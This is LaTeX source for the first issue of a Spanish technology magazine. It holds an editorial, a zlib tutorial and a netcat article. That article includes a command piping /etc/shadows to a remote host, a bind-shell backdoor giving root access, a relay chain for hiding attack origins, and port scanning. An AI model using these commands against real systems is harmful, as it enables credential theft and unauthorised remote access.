% Este fichero es parte del N�mero 1 de la Revista Occam's Razor
% Revista Occam's Razor N�mero 1
%
% (c) 2007, 2009, Occam's Razor.
%
% Esta obra est� bajo una licencia Reconocimiento 3.0 Espa�a de
% Creative Commons. Para ver una copia de esta licencia, visite
% http://creativecommons.org/licenses/by/3.0/es/ o envie una carta a
% Creative Commons, 171 Second Street, Suite 300, San Francisco,
% California 94105, USA. 

\documentclass[10pt,a4paper,twoside]{article}

% Paquetes... probablemente alguno no sea necesario
% 

\usepackage[latin1]{inputenc}                                                   
\usepackage[spanish]{babel}  
\usepackage{graphicx}
\usepackage{a4,fancyhdr, multicol}
\usepackage{float}
\usepackage{pdftricks}
\usepackage{pstricks}
\usepackage{color}
%\usepackage{pstcol}
\usepackage{pst-plot}
\usepackage{pst-eps}
\usepackage{wrapfig}
\usepackage{eso-pic}
\usepackage{listings}
\usepackage{textpos}
\usepackage{epsf}

\usepackage[T1]{fontenc} 
%\usepackage{lmodern} 

% Configuraci�n de tama�o de p�gina
\setlength{\parindent}{0in}
\setlength{\oddsidemargin}{0.05mm}
\setlength{\evensidemargin}{0.05mm}

\addtolength{\textwidth}{4cm}
\addtolength{\topmargin}{-3.5cm}
\addtolength{\textheight}{4.5cm}
\pagestyle{fancy}

% Configuraci�n de Cabeceras Fancy Header
\fancyhead{}
\fancyfoot{} % clear all footer fields 
\fancyfoot[LE]{\textbf{\textsf{OCCAM's Razor | \thepage}}}
\fancyfoot[RO]{\textbf{\textsf{\thepage | OCCAM's Razor}}}
\renewcommand{\footrulewidth}{0.4pt}

% Elimina l�neas de cabecera
%
\renewcommand{\headrulewidth}{0pt} 


% Colores
\definecolor{introcolor}{rgb}{0.8,1.0,0.8}
\definecolor{titlecolor}{rgb}{0.4,0.5,0.1}
\definecolor{excolor}{rgb}{0.8,0.8,0.8}

% ********************************************************
% Definici�n de Comandos y Entornos
% ********************************************************

% Comandos de uso general
% ---------------------------------------------------------
% Secciones t�tulos y subt�tulos de cada p�gina
\newcommand{\msection}[4]{
{\begin{flushright}{
{\psset{linecolor=black,linestyle=dotted}\psline(-17,0)}
\colorbox{#1}{
\begin{minipage}{#3\linewidth}
\center
  \textcolor{#2}{
    \textsf{\textbf{#4}}}
\end{minipage}
}}\end{flushright}}

\vspace{4mm}
}

\newcommand{\mtitle}[2]{
  {\resizebox{#1}{0.7cm}{\textbf{\textsf{#2}}}}
  \vspace{1mm}
}

\newcommand{\msubtitle}[2]{
  {\resizebox{#1}{0.5cm}{{\gray{\textbf{\textsf{#2}}}}}}
  \vspace{1mm}
}

% Principio de P�gina. Pone el cuadro superior con la secci�n
\newcommand{\bOpage}[3]{
  \msection{#1}{black}{#2}{#3}
  \begin{multicols}{2}
}

% Fin de p�gina. Termina el entorno multicols
\newcommand{\eOpage}{
\pagebreak
\end{multicols}
}

% Fin e Inicio de P�gina. Sino utilizamos figuras fuera de las
% columnas del cuerpo principal, esta es la forma adecuada de marcar
% cada p�gina
\newcommand{\ebOpage}[3]{
\eOpage
\bOpage{#1}{#2}{#3}
}

% Crea el cuadro de introducci�n al principio de cada art�culo
\newcommand{\intro}[3]{
\colorbox{#1}{
  \begin{minipage}{.9\linewidth}
    \vspace{2mm}
    {{\resizebox{!}{1.0cm}{#2}}{#3}}
  \vspace{1mm}
  \end{minipage}
}
\vspace{4mm}
}


% Comando para introducir figura en entorno multicol
\newcommand{\myfig}[3]{
\begin{center}
  \includegraphics[width=#3\hsize,angle=#1]{#2}
  \nobreak
\end{center}}

% Caption para figuras en entorno multicol
\setcounter{figure}{1}
\newcommand{\mycaption}[1]{
  \begin{quote}
    {\small
    {{\sc Figura} \arabic{figure}: #1}
    }
  \end{quote}
  \stepcounter{figure}
}

% Comando para introducir secciones en los art�culos
\newcommand{\sectiontext}[3]{\vspace{4mm}{{\textcolor{titlecolor}{\large{\textbf{\textsf{#3}}}}}}
\vspace{2mm}
}


% Entornos (begin... end)
% ----------------------------------------------------
% Entorno para introducir ejemplos
\newenvironment{mexample}{
  \vspace{2mm}
  \bgroup
  \tiny
}{
  \egroup
  \vspace{4mm}
}

% Entorno para introducir entradillas en el texto
\newenvironment{entradilla}{
  \bigskip
  \hrule 
  \bigskip
  \bgroup
  \LARGE
}{
  \egroup
  \bigskip
  \hrule
  \vspace{5mm}
}


% **************************************************************************
% Comienza el documento
\begin{document}

% Portada, no utiliza Fancy Header e introduce imagen de portada con PStricks
\pagestyle{empty}

\rput(8,-14){\epsfbox{portada-3.eps}}

\clearpage
\pagebreak

% Imagen con el sumario en la siguiente p�gina
\rput(8,-12.0){\resizebox{!}{30cm}{{\epsfbox{sumario-1.eps}}}}

\pagebreak

% Activa Fancy Headers stilo e incluye los distintos art�culos
\pagestyle{fancy}

% Este fichero es parte del N�mero 1 de la Revista Occam's Razor
% Revista Occam's Razor N�mero 1
%
% (c) 2007, 2009, Occam's Razor.
%
% Esta obra est� bajo una licencia Reconocimiento 3.0 Espa�a de
% Creative Commons. Para ver una copia de esta licencia, visite
% http://creativecommons.org/licenses/by/3.0/es/ o envie una carta a
% Creative Commons, 171 Second Street, Suite 300, San Francisco,
% California 94105, USA. 

\begin{flushright}
\parbox[top]{0.9\linewidth}{\flushright
{\resizebox{!}{1cm}{\textsc{Editorial}}}

\vspace{2mm}

{\Huge Aqu� Estamos}

by The Occam Team
}


\rput(-10.5,7.0){\resizebox{!}{3cm}{{\epsfbox{Typewritter.eps}}}}
\rput(-17.0,-5){\resizebox{7cm}{35.0cm}{{\epsfbox{bar.eps}}}}
\rput(-16.3,3.5){\resizebox{!}{4.8cm}{{\epsfbox{portada-3-thumb.eps}}}}
\rput(-16.3,-17.5){\resizebox{!}{0.9cm}{{\epsfbox{licencia.eps}}}}
\end{flushright}

\vspace{4mm}

\definecolor{introcolor}{rgb}{0.6,0.7,0.3}
\definecolor{excolor}{rgb}{0.8,0.8,0.8}
\definecolor{barcolor}{rgb}{0.9,0.9,0.9}

\begin{textblock}{30}(-1.5,-15)

\begin{minipage}{0.12\linewidth}
\sf\color{barcolor}
\begin{center}

\vspace{1cm}

\colorbox{black}{
{\resizebox{3cm}{0.7cm}{\textcolor{white}{\bf\sf\large Occam's}}}
}

{\resizebox{2.5cm}{0.4cm}{\bf\sf\large Razor}}

\vspace{4mm}

{\bf N�mero 1, A�o 2007}

\vspace{5cm}

\hrule

\vspace{4mm}

{\bf Direcci�n: }

\vspace{1mm}

David Mart�nez Oliveira

\vspace{2mm}

{\bf Editores:}

\vspace{1mm}

David Mart�nez Oliveira

Fernando Mart�n Rodr�guez

\vspace{4mm}

{\bf Colaboradores:}

\vspace{1mm}

Carlos Rodr�guez Alemparte, Fernando Mart�n Rodr�guez, Gavin Mathews,
Laura Rodr�guez Gonz�lez, 
Er Aplastao, Er Manitas, Er ATS, Un Servidor, Capitan Mi�ocas, Er Viajante y Tamariz el de la Perdiz

\vspace{2mm}

{\bf Maquetaci�n}

\vspace{1mm}

DeMO y LiR

\vspace{2mm}

\hrule

\vspace{4mm}

{\bf Publicidad}

\vspace{1mm}

Occam's Razor Direct

{\tt occams-razor@uvigo.es}

\vspace{2mm}

\hrule

\vspace{4mm}

{\bf Impresi�n}

Por ahora tu mismo\ldots Si te apetece

\vspace{2mm}

\hrule

\vspace{2mm}

(c) 2007, 2009 The Occam's Razor Team

Esta obra est� bajo una licencia Reconocimiento 3.0 Espa�a de Creative
Commons. Para ver una copia de esta licencia, visite
http://creativecommons.org/\\licenses/by/3.0/es/ o envie una carta a
Creative Commons, 171 Second Street, Suite 300, San Francisco,
California 94105, USA.

\end{center}
\end{minipage}

\end{textblock}



\begin{textblock}{20}(3.5,-13)

\begin{minipage}{.45\linewidth}
\colorbox{introcolor}{
\begin{minipage}{1\linewidth}

{{\resizebox{!}{1.5cm}{E}}{ste es el primer n�mero del {\em Occam's
Razor}. Para el que no lo sepa, el {\em filo o navaja de Occam} es un
conocido principio cient�fico que b�sicamente viene a decir lo
siguiente: {\em ``La soluci�n m�s sencilla tiende a ser la
buena''}. Y esta es la filosof�a que queremos mantener en esta nueva
publicaci�n.

}
}

\end{minipage}
}

\vspace{6mm}

No s� vosotros, pero nosotros echamos de menos alguna publicaci�n en
la que no se tenga miedo a profundizar en temas tradicionalmente
clasificados como complicados. Hace algunos a�os, cualquier revista
inform�tica estaba repleta de programas con los que practicar en tu
casa y de art�culos que trataban cuestiones de, podr�amos decir, {\em
  bajo nivel}. 

La idea era... s�cale todo el partido a esa cosa que tienes en casa y
que puede hacer verdaderas maravillas. Si ya, dir�is muchos, pero las
cosas hace 15 a�os eran mucho m�s sencillas, procesadores lentos, unos
pocos kilobytes de memoria e interfaces anal�gicos muy sencillos. Eso
es cierto, pero la realidad es que las cosas en pleno a�o 2007 no han
cambiado tanto como la mayor�a piensa. 

Las cosas siguen funcionando igual, m�s r�pido, con interfaces m�s
completos (que no complicados, aunque esto �ltimo ser�a cuestionable
en algunos casos), y con much�simos m�s recursos. Por esta raz�n,
resulta vergonzoso el poco partido que se le saca hoy en d�a a un
ordenador comparado con las cosas que se hac�an hace algunos a�os
(salvo honrosas excepciones claro est�). 

Pues bien, esta revista pretende recuperar esa filosof�a, profundizar
en el funcionamiento de la tecnolog�a actual para que deje de ser una
cosa {\em m�gica} y pase a ser una cosa {\em l�gica}. Y creednos, todo
esto es much�simo m�s sencillo de lo que nos quieren hacer ver... no
es trivial, pero dista mucho de estar reservado a unos pocos
elegidos. 

Para terminar con la presentaci�n de este primer n�mero queremos dejar
claras tres cosas.  

La primera es que esta publicaci�n no va de linux. Puede parecer lo
contrario tras leer este n�mero, pero la raz�n de su contenido es que
no hemos tenido muchos colaboradores. Si dese�is participar con
art�culos sobre temas interesantes de cualquier otra plataforma �stos
ser�n bienvenidos. La �nica condici�n es que hag�is lo que hag�is
intent�is utilizar sistemas libres. Esto asegura que cualquiera pueda
hacer lo que se describe en vuestros art�culos sin tener que
desembolsar una cantidad de dinero desorbitada y adem�s contribuye al
progreso de la cultura. 

La segunda es que esta revista no es de inform�tica, sino de
tecnolog�a. Tampoco hemos tenido muchas colaboraciones desde �mbitos
diferentes a la inform�tica, pero eso no quiere decir que art�culos
sobre electr�nica, comunicaciones o cualquier otro tema relacionado
con la tecnolog�a no tenga cabida en esta publicaci�n. As� que
animaros a compartir vuestras experiencias. 

Finalmente, que quede claro que no nos hacemos responsables de
cualquier da�o que se pueda ocasionar en cualquier equipo siguiendo el
texto de alguno de nuestros art�culos. T� eres el responsable de lo
que hagas con tus cosas y si no tienes una remota idea de lo que est�s
haciendo quiz�s deber�as pararte y preguntar antes de cargarte
algo. Por otra parte que sep�is que no tenemos ni un duro as� que por
mucho que demand�is vais apa�ados. 

\bigskip

Esperamos que os guste este primer n�mero y nos leemos en el pr�ximo.

\bigskip

\begin{flushright}
{\Large\sc{The Occam's Razor \\Team}}
\end{flushright}

\vspace{5cm}

\end{minipage}

\end{textblock}

\pagebreak


% Este fichero es parte del N�mero 1 de la Revista Occam's Razor
% Revista Occam's Razor N�mero 1
%
% (c) 2007, 2009, Occam's Razor.
%
% Esta obra est� bajo una licencia Reconocimiento 3.0 Espa�a de
% Creative Commons. Para ver una copia de esta licencia, visite
% http://creativecommons.org/licenses/by/3.0/es/ o envie una carta a
% Creative Commons, 171 Second Street, Suite 300, San Francisco,
% California 94105, USA. 

% Seccion Ratas de Biblioteca
%
% Incluye imagen del art�culo
\rput(1,-2){\resizebox{!}{4cm}{{\epsfbox{zlib_ddj.eps}}}}

% -------------------------------------------------
% Cabecera
\begin{flushright}
\msection{introcolor}{black}{0.25}{RATAS DE BIBLIOTECA}

\mtitle{7cm}{Si no vas sobrao ... -lz}

\msubtitle{12cm}{Como manejar ficheros comprimidos en tus programas}

{\sf por Er aplastao}

{\psset{linecolor=black,linestyle=dotted}\psline(-12,0)}
\end{flushright}

\vspace{2mm}
% -------------------------------------------------

\begin{multicols}{2}

% Definici�n de colores
% FIXME: La definici�n en portada.tex no propaga.
\definecolor{introcolor}{rgb}{0.6,0.7,0.3}
\definecolor{titlecolor}{rgb}{0.4,0.5,0.1}
\definecolor{excolor}{rgb}{0.8,0.8,0.8}

% Introducci�n
\colorbox{introcolor}{
\begin{minipage}{.9\linewidth}

{{\resizebox{!}{1.0cm}{T}}{odos estamos acostumbrados a comprimir
ficheros o incluso directorios enteros cuando empezamos a ir escasos de
espacio en disco. Normalmente, cuando queremos recuperar los datos
comprimidos, primero los descomprimimos y luego los usamos. No ser�a
estupendo eliminarnos este paso?
}}

\end{minipage}
}

\vspace{2mm}

% Cuerpo del art�culo

Muchos habr�is comprobado que en los sistemas GNU/Linux existen varios
programas capaces de trabajar directamente con ficheros comprimidos,
como por ejemplo gv (visor de postscript) o vim (editor de
textos). Lejos de lo que podr�a parecer a simple vista, a�adir esta
funcionalidad a nuestros programas es mucho m�s f�cil de lo que nos
imaginamos gracias a la librer�a {\em libz.so}.

\sectiontext{white}{black}{GRABANDO FICHEROS}

El siguiente fragmento de c�digo muestra como generar un fichero
comprimido utilizando la librer�a {\em zlib}:

{\small
\begin{verbatim}
#include <zlib.h>

int main ()
{
	gzFile  f;
	f = gzopen (``mi_fichero.txt.gz'', ``wt'');
	for (int i = 0; i < 20; i++)
	  gzprintf (f, ``Hello World %d\n'', i);
	gzclose(f);

	return 0;
}
\end{verbatim}
}

En el ejemplo anterior se han omitido todas las comprobaciones de
errores, para poder concentrarnos en el uso de la librer�a. La verdad
es que cualquiera que haya escrito un programa para grabar un fichero
de texto en C lo ver� claro :).

Para compilar este ejemplo, debemos indicar que se utilice la librer�a
zlib, esto lo conseguimos con una l�nea como la siguiente:

\begin{verbatim}
gcc mi_codigo_de_lamuerte.c -o z_ejemplo -lz
\end{verbatim}

Que nos generar� un ejecutable llamado {\tt z\_ejemplo}.

\sectiontext{white}{black}{CARGANDO FICHEROS}

Ya sabemos como generar ficheros comprimidos. Ahora solo tenemos que
saber como leerlos de nuevo desde nuestros programas.

Si os cuento que existe una funci�n llamada {\em gzgets}, seguro que
la mayor�a no necesitar�a saber m�s. Pero por si hay alg�n despistado
en la sala, ah� va un ejemplillo de uso.

{\small
\begin{verbatim}
#include <stdio.h>
#include <zlib.h>

int main ()
{
	gzFile f;
	char   line[256];

	f = gzopen (``mi_fichero.txt.gz'', ``rt'');
	while (!gzeof (f))
	{
	   gzgets (f, line, 256);
	   printf (``%s\n'', line);
	}
	gzclose(f);
}
\end{verbatim}
}

Bastante sencillo no?. As� que ya podemos hacer que nuestros programas
graben sus ficheros de texto en formato comprimido y recuperarlos
posteriormente sin m�s.

\sectiontext{white}{black}{Y QUE M�S?}

Pues para los m�s curiosos que quieran sacarle todo el jugo a esta
librer�a, lo mejor que pueden hacer es mirarse el fichero {\em zlib.h}
que normalmente estar� en el directorio {\tt /usr/include}.

Este fichero contiene todos los prototipos y estructuras de datos
utilizados por la librer�a con amplios comentarios para cada una de
ellas. 

Lo mejor es empezar por el final, donde encontrareis las funciones que
hemos visto en los ejemplos anteriores, y unas cuantas m�s que os
resultar�n muy familiares.

\begin{entradilla}
{\em ``{\color{titlecolor}{La librer�a zlib}} nos facilita el uso de ficheros comprimidos''}
\end{entradilla}

La primera parte del fichero contiene el API de m�s bajo nivel con el
que controlar los par�metros de compresi�n y comprimir/descomprimir
datos en buffers de memoria, lo cual puede ser �til en algunas
circunstancias.

Finalmente, recordad que para poder compilar estos ejemplos necesit�is el paquete de desarrollo {\em zlib} que incluye el fichero de cabecera {\tt zlib.h} que hemos utilizado.

Hasta el pr�ximo n�mero.

\raggedcolumns
\pagebreak

\end{multicols}

\pagebreak

% Este fichero es parte del N�mero 1 de la Revista Occam's Razor
% Revista Occam's Razor N�mero 1
%
% (c) 2007, 2009, Occam's Razor.
%
% Esta obra est� bajo una licencia Reconocimiento 3.0 Espa�a de
% Creative Commons. Para ver una copia de esta licencia, visite
% http://creativecommons.org/licenses/by/3.0/es/ o envie una carta a
% Creative Commons, 171 Second Street, Suite 300, San Francisco,
% California 94105, USA. 

% Secci�n Malas Bestias
%
% Incluye imagen del art�culo
\rput(1,-3.0){\epsfbox{navaja.eps}}

% --------------------------------------------------------
% Cabecera
\begin{flushright}
\msection{introcolor}{black}{0.18}{MALAS BESTIAS}

\mtitle{8cm}{NetCat: La navaja suiza de la Red}

\msubtitle{12cm}{Usos curiosos de esta potente herramienta}

{\sf por Er Manitas}

{\psset{linecolor=black,linestyle=dotted}\psline(-12,0)}
\end{flushright}

\vspace{2mm}
% --------------------------------------------------------

\begin{multicols}{2}

% Definici�n de colores
% FIXME: La definici�n en portada.tex no propaga.
\definecolor{introcolor}{rgb}{0.6,0.7,0.3}
\definecolor{titlecolor}{rgb}{0.4,0.5,0.1}
\definecolor{excolor}{rgb}{0.8,0.8,0.8}

% Introducci�n
\colorbox{introcolor}{
\begin{minipage}{.9\linewidth}

{{\resizebox{!}{1.0cm}{N}}{etcat es un peque�o programa normalmente
conocido como {\em la navaja suiza de las redes}, puesto que se trata
de una herramienta muy vers�til y �til. En este art�culo veremos
algunos de los usos {\em no tan comunes} de esta herramienta.
}}

\end{minipage}
}

\vspace{4mm}

% Cuerpo del art�culo

\sectiontext{white}{black}{NETCAT: nc}

Si ya, el nombre no tiene nada que ver con los gatos, pero mola
�eh?. Como muchos os imaginareis, netcat pretende ser la versi�n para
redes del conocido comando {\em cat}, por una parte por su orientaci�n
al manejo de texto (como tantas herramientas UNIX) y por otra por su
tremenda sencillez.

En poco m�s de 17Kb (parece rid�culo �no?) esta herramienta es capaz de
realizar aut�nticas proezas con una sencillez impresionante. Antes de
meternos de lleno en su uso, una �ltima recomendaci�n: Descargar el
c�digo fuente y echarle un vistado no es ninguna p�rdida de tiempo.

\sectiontext{white}{black}{LO B�SICO}

Para abrir boca vamos a presentar el uso m�s b�sico del programa, para
luego ver todas las posibilidades que nos ofrece. Lo primero
que debemos saber, es que {\em netcat} puede trabajar tanto como cliente
como servidor, dependiendo de los par�metros que pasemos.

Cuando se utiliza como cliente sin m�s, funciona igual que el
programa {\tt telnet}, solo tenemos que darle el nombre o direcci�n IP
de la m�quina a la que queremos conectarnos seguida del puerto que queremos utilizar.

Cuando se utiliza como servidor es necesario utilizar el flag {\tt -l} y el
flag {\tt -p} seguido del puerto en el que queremos que el servidor acepte
conexiones. Veamos un sencillo ejemplo. En una consola escribimos el
siguiente comando:

\begin{mexample}
\small\tt
nc -l -p 8080
\end{mexample}

El programa se quedar� esperando conexiones en el puerto 8080. Ahora
coged vuestro navegador preferido e introducid la siguiente URL: 

\bigskip
\texttt{http://127.0.0.1:8080}
\bigskip

Netcat os mostrar� por consola algo parecido a la figura 1.

Bueno, pues todo eso que veis ah� abajo es la informaci�n que env�a
vuestro navegador cada vez que os conect�is a una p�gina web, en otras
palabras esto es una petici�n HTTP.

El navegador quedar� esperando la respuesta del servidor web (nuestro
humilde nc en este caso), as� que, d�mosle una respuesta. En la consola
en la que hemos lanzado el netcat, escribid algo como esto:

\begin{verbatim}
<h1>Hola Mundo!!!</h1>
\end{verbatim}

\begin{entradilla}
{\it ``{\color{titlecolor}{Netcat puede trabajar como cliente o servidor}}
dependiendo de los par�metros que reciba''}
\end{entradilla}

Y seguidamente pulsad las teclas control (CTRL) y C, para parar netcat
y cerrar la conexi�n. Ahora mirad que aparece en vuestro navegador :o.

\sectiontext{white}{black}{MENSAJER�A INSTANT�NEA}

Vamos ahora con una aplicaci�n un poco m�s curiosa, utilizar nuestro
netcat para sustituir esos pesados programas de mensajer�a instant�nea
con tantos gr�ficos y ventanas y todo eso.

Para montar este sencillo sistema, uno de los interlocutores debe
lanzar netcat como servidor, y el otro como cliente en un puerto
determinado, algo tal que as�:


\end{multicols}


\begin{figure}[ht]
\hrule
\vspace{2mm}
\scriptsize\tt
\begin{verbatim}
GET / HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.7.8) Gecko/20050513 Debian/1.7.8-1
Accept:text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5 
Accept-Encoding: gzip,deflate
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
Keep-Alive: 300
Connection: keep-alive
\end{verbatim}
\hrule
\centering{\em Figura 1. Datos enviados por nuestro browser}

\end{figure}

\pagebreak

\bOpage{introcolor}{0.18}{MALAS BESTIAS}

\begin{verbatim}
Usuario 1: nc -l -p 5000
Usuario 2: nc IP_USUARIO1 5000
\end{verbatim}


Si no ten�is amiguitos en internet pod�is hablar con vosotros mismos
sustituyendo {\tt IP\_USUARIO1} por 127.0.0.1.

Sencillo �no?... No est� nada mal para 17Kb.

\sectiontext{white}{black}{REDIRECCI�N REMOTA}

Muchos estar�is acostumbrados a utilizar {\em pipes} para redirigir la
salida de un programa a un fichero o a otro programa que filtre esos
datos, cosas como:

{\small
\begin{verbatim}
cat mi_fichero | sort | uniq | \
sed -e 's/Pepe/Manolo/g' > resultado.txt
\end{verbatim}
}

\begin{entradilla}
{\em ``{\color{titlecolor}{Es muy sencillo hacer backups por red}} de im�genes
completas de dispositivos utilizando Netcat y dd''}
\end{entradilla} 


Pues �que os parecer�a poder redirigir la salida de los programas a
otra m�quina?, guay �no?, pues nada m�s f�cil. En la m�quina en la que
quer�is recibir la salida de un programa lanz�is netcat como servidor
en el puerto que m�s rabia os d�. Eso ya deber�ais saber hacerlo solos
:).

En el otro extremo pues solo ten�is que hacer:

{\small
\begin{verbatim}
cat /etc/shadows | nc host puerto
\end{verbatim}
}

�Quien necesita el ftp para sacar fichero de una m�quina?. Si ya,
dir�is. Pero eso son solo unas pocas l�neas de texto... �o no?

\sectiontext{white}{black}{COMPRANDO UN NUEVO ORDENADOR}

Bueno, no se vosotros, pero normalmente, cuando yo cambio de ordenador
el disco duro del viejo se puede copiar sin problemas en la monstruosa
m�quina que nos acabados de comprar (o regalar, o tocar en un concurso
de la tele, o agenciar, o...).

As� que por qu� perder el tiempo seleccionando ficheros para que
siempre se nos olvide alg�n directorio oculto con las claves privadas
que necesitas para... bueno, eso no tiene importancia.

Pues nada m�s sencillo. En nuestro nuevo ordenador ejecutamos netcat
de la siguiente forma:

\begin{mexample}
\small
\begin{verbatim}
nc -l -p 5000 > particion1.iso
\end{verbatim}
\end{mexample}

Y en nuestro obsoleto ordenador que vamos a vacapear :), ejecutaremos
algo como esto:

\begin{mexample}
\small
\begin{verbatim}
dd if=/dev/hda1 | nc nuevo_ordenador 5000
\end{verbatim}
\end{mexample}

Que pasada!!!!. Bueno, ya hablaremos de {\tt dd} en otra ocasi�n. Otra
mala bestia. 

Ahora simplemente necesitamos montar nuestro fichero .iso
para tener una copia exacta del disco duro de nuestra vieja m�quina, 
con una l�nea como esta:

\begin{mexample}
\small
\begin{verbatim}
# mkdir /mnt/el_viejo
# mount -o loop particion1.iso /mnt/el_viejo
\end{verbatim}
\end{mexample}

Y en {\tt /mnt/el\_viejo} tendr�amos exactamente la partici�n de nuestro viejo ordenador.

\sectiontext{white}{black}{COMO EN LAS PELIS}

En las pelis de {\em hackers}, siempre llega un momento en el que los
buenos est�n intentando localizar al malo y en un mapa del mundo se
pueden ver unos puntos rojos unidos por unas l�neas que se van
poniendo verdes mientras localizan a los malos.

No est� nada claro que es lo que hace el malo de la pel�cula, pero
podr�a utilizar netcat para hacer todos esos saltos por todas esas
m�quinas de todo ese mundo... eso si, consiguiendo un acceso shell
primero. 

Y como se har�a esto?, pues {\em empipando} el netcat a otro netcat.

Supongamos que tenemos cinco m�quinas. La m�quina1 es la nuestra, y la
m�quina5 es la m�quina de los buenos que nos van a localizar. La
secuencia de comandos que tendr�amos que ejecutar ser�a la siguiente:

\begin{mexample}
\small
\begin{verbatim}
Maquina4:  nc -l -p 5004 | nc maquina5 puesto_destino
Maquina3:  nc -l -p 5003 | nc maquina4 5004
Maquina2:  nc -l -p 5002 | nc maquina3 5003
Maquina1:  nc maquina2 5002
\end{verbatim}
\end{mexample}

De esta forma nos conectar�amos al puerto {\tt puerto\_destino} de la
m�quina5 dando 3 saltos (sin contar el inicial). En realidad estas cosas no se hacen as�,
pero en caso de apuro... nunca se sabe.

\begin{entradilla}
{\em ``Con una sola l�nea y Netcat {\color{titlecolor}{podemos preparar un backdoor para acceso shell}} a cualquier m�quina''}
\end{entradilla}

\sectiontext{white}{black}{PUERTAS TRASERAS}

Una puerta trasera, m�s conocida por su t�rmino anglosaj�n {\em
backdoor}, es cualquier mecanismo que permita un acceso sencillo a un
sistema si se sabe cual es la puerta.

Normalmente su utilidad es la de proporcionar un acceso r�pido a los
malvados crackers a las m�quinas que ya han crackeado, b�sicamente para
no tener que volver a hacerlo. En estos casos, lo que interesa es un
acceso shell como root para tener total control sobre la m�quina.

\ebOpage{introcolor}{0.18}{MALAS BESTIAS}

Y como hacemos esto con netcat?. Si comprobamos las opciones del programa,
veremos que hay dos clasificadas como {\em dangerous}... pues como
somos as� ah� nos vamos directamente.

{\small
\begin{verbatim}
nc -l -p 5000 -c /bin/sh
\end{verbatim}
}

La opci�n {\tt -c} le dice a netcat que ejecute el programa que se indica a continuaci�n cuando recibe una conexi�n. Bueno, en realidad la cosa es un poco m�s complicada, pero ahora no es el momento de profundizar en este tema.

Si el comando anterior se ha lanzado como root, podremos hacer cosas como:

{\small
\begin{verbatim}
mi_maquinilla$ nc pobrecillo 5000
whoami
root
cd /etc
cat /etc/passwd
...
mi_maquinilla$
\end{verbatim}
}

Es un poco inc�modo porque no tenemos prompt, pero hay pocas cosas m�s
sencillas.

\begin{entradilla}
{\em ``Netcat permite {\color{titlecolor}{preparar Backdoors, escanear puertos o realizar Port Knocking}} de una forma muy sencilla''}
\end{entradilla}


\sectiontext{white}{black}{ESCANEANDO PUERTOS}

Como no pod�a ser de otra forma, Netcat tambi�n puede ser utilizado
para escanear puertos, es decir, para saber si un determinado puerto,
y normalmente servicio, de una determinada m�quina est� activo.


Para esta tarea vamos a utilizar el flag -z para {\em Entrada/Salida
Nula}, es decir, en este modo, Netcat no va a esperar datos de la
entrada est�ndar ni va a mostrarlos en la salida est�ndar. Veamos como
hacer esto.

{\small
\begin{verbatim}
# nc -z maquina 80 && echo ``Servicio Web Activo''
\end{verbatim}
}

Es decir, NetCat retorna un c�digo de error si no puede establecer una conexi�n. Los
caracteres \&\& representan el operador {\tt AND} l�gico para la shell, el cual tiene
la peculiaridad de que si el primer operando es 0 � falso, ya no
eval�a el segundo (no es necesario, ya que el resultado ser� falso
independientemente del valor del segundo operador). 

As�, si netcat no puede establecer la conexi�n y devuelve un c�digo de
error, el siguiente comando, el que muestra el mensaje no se
ejecutar�. 

Combinando esto que acabamos de ver con un poco de {\em scripting} es
muy sencillo montar un rudimentario escaneador de puertos. 

\columnbreak

\sectiontext{white}{black}{KNOCK, KNOCK, KNOCKING ON NETCAT DOOR}

Una versi�n particular de los backdoors es la t�cnica conocida como
{\em Port Knocking}, algo as� como llamar a la puerta por los
puertos. 

Esta t�cnica se basa en ejecutar un cierto comando,
normalmente levantar un servicio o abrir un puerto en un firewall,
cuando se recibe una serie de intentos de conexi�n a un determinado
conjunto de puertos en una determinada secuencia.

Lo que vamos a describir aqu� es una aproximaci�n muy simple al
proceso, pero con un poco de {\em scripting} y haciendo que el cliente
env�e algunos datos, podr�amos aproximarnos bastante... pero eso queda
como ejercicio.

Veamos como se har�a.

En la m�quina destino, en la que se ejecutar� la acci�n que nos
interesa, solo tenemos que lanzar una secuencia de comandos similar a
la siguiente: 

{\small
\begin{verbatim}
nc -l -p 500 && nc -l -p 400 && echo "Hola Mundo"
\end{verbatim}
}

Ahora, si desde nuestro cliente, nos conectamos primero al puerto 500
y luego al 400, en la m�quina servidor se mostrar� un flamante ``Hola
Mundo'' en la consola. Con lo que ya hemos comentado respecto al
operador \&\&, la l�nea anterior no deber�a requerir mayor
explicaci�n. 

Sencillo?.... Rudimentario??... S�. Pero tambi�n inquietante.

\sectiontext{white}{black}{HORA BOT}

Hasta ahora hemos estado utilizando netcat directamente desde la l�nea
de comandos, sin embargo, combinado con un lenguaje de programaci�n,
las posibilidades se multiplican.

En el siguiente ejemplo se muestra un sencillo script shell que
implementa un pat�tico Bot para el IRC que cada 5 minutos da la hora
local en un determinado canal.

\begin{mexample}
\small\sf
\begin{verbatim}
#!/bin/sh

while (true) do
HORA=`date +%H:%M`
cat << EOM | nc servidor_irc 6667
USER HoraBot 0 * :Soy el Bot que da la hora
NICK HoraBot
JOIN #un_canal_cualquiera
PRIVMSG #un_canal_cualquiera : Son las $HORA y sereno
QUIT
EOM
sleep 300
done;
\end{verbatim}
\end{mexample}
%$

Como pod�is ver, este sencillo script SHELL, repite infinitamente un
bucle en el que se conecta a una determinada m�quina y transmite una
serie de comandos del IRC utilizando Netcat. Luego espera 5 minutos y
vuelve a repetir el proceso.

\eOpage

\rput(13.35,-12){\resizebox{!}{20cm}{{\epsfbox{lector-1.eps}}}}
\rput(9.0,-23){\resizebox{!}{8.8cm}{{\epsfbox{autopromo.eps}}}}


\bOpage{introcolor}{0.18}{MALAS BESTIAS}

Los interesados en el protocolo del IRC pueden dirigirse al RFC
apropiado, o esperar a que hagamos un art�culo guay en la revista,
all� tu y tu impaciencia.

Respecto a este �ltimo ejemplo, comentaros que en algunos servidores
de IRC requieren un mensaje {\tt PONG} durante la autenticaci�n, con
lo cual el script anterior no funcionar�a. De todas formas, pod�is
probar con otros protocolos como SMTP o HTTP, por ejemplo. 

\sectiontext{white}{black}{PARA TERMINAR}

En este peque�o art�culo hemos visto algunas aplicaciones m�s o menos
curiosas y/o �tiles del programa netcat. En la propia distribuci�n del
programa podr�is encontrar un directorio con varios scripts que hacen
cosas m�s complicadas que las que hemos descrito aqu�, y tambi�n mucho
m�s interesantes.

